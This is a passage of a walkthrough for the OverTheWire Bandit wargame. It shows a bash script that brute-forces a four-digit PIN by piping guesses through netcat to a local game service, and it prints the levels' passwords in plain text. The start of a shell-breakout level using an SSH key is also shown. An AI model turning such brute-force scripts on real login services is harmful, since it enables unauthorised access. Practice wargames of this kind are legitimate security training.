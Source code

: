 3. Then we can sort and filter out all the lines which contain the string "Wrong"

```shell
sort results.txt | grep -v "Wrong"

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

4. If you find that you were unable to get the password, it could be that the game server was updated to only accept up to 6000 brute force entries.
5. In this case, just break the *for* loop into 2, one from 0000 to 5999 and the other from 5999 to 9999. You would also need to put them into 2 different text files and bruteforce each one as well.

```bash
#!/bin/bash

for i in {0000..5999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities1.txt
done

for i in {5999..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities2.txt
done

cat possibilities2.txt | nc localhost 30002 > results2.txt
cat possibilities1.txt | nc localhost 30002 > results1.txt
exit
```

6. Search both text files for the the password.

# 25-26
**Problem**
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it. <br>

**Solution**
1. There is a private ssh key for the next level in the current directory, we need to limit the rights to the key to use it to log in. 

```bash
ls

bandit26.sshkey

chmod 700 bandit26.sshkey
```

